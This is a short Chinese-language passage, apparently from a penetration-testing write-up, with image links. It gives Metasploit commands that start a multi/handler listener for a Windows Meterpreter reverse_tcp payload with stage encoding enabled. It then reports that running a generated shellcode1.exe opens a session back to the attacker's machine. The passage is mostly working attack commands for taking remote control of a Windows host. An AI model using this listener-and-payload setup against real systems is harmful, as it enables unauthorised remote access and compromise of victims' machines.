 ![image-20220530115440059](./images/202205301154200.png)

在msf中进行监听：

```
msf6 > use multi/handler
msf6 > set payload windows/meterpreter/reverse_tcp
msf6 > set LHOST 192.168.174.128
msf6 > set LPORT 6666
msf6 > set EnableStageEncoding true
```

然后执行生成的`shellcode1.exe`，msf中可正常上线：

![image-20220530115427316](./images/202205301154538.png)

